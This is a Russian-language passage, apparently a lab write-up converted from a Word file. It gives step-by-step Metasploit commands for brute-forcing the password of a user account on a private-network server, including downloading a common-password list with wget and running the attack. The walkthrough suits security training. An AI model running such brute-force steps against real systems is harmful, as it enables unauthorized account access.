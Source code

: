 Указываем IP-адрес атакуемого сервера:

set RHOSTS 192.168.122.205

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.006.png)

Устанавливаем имя пользователя, с которым будем брутфорсить пароль:

set USERNAME IvanPopov\_IT

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.007.png)

При помощи wget скачиваем список самых популярных паролей с github в .txt файле:

wget <https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/2023-200_most_used_passwords.txt>

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.008.png)

После чего применяем его командой:

set PASS\_FILE /path/to/passwords.txt

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.009.png)

Запускаем брутфорс с помощью команды:

run

После успешного подбора пароля получаем следующий вывод:

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.010.png)
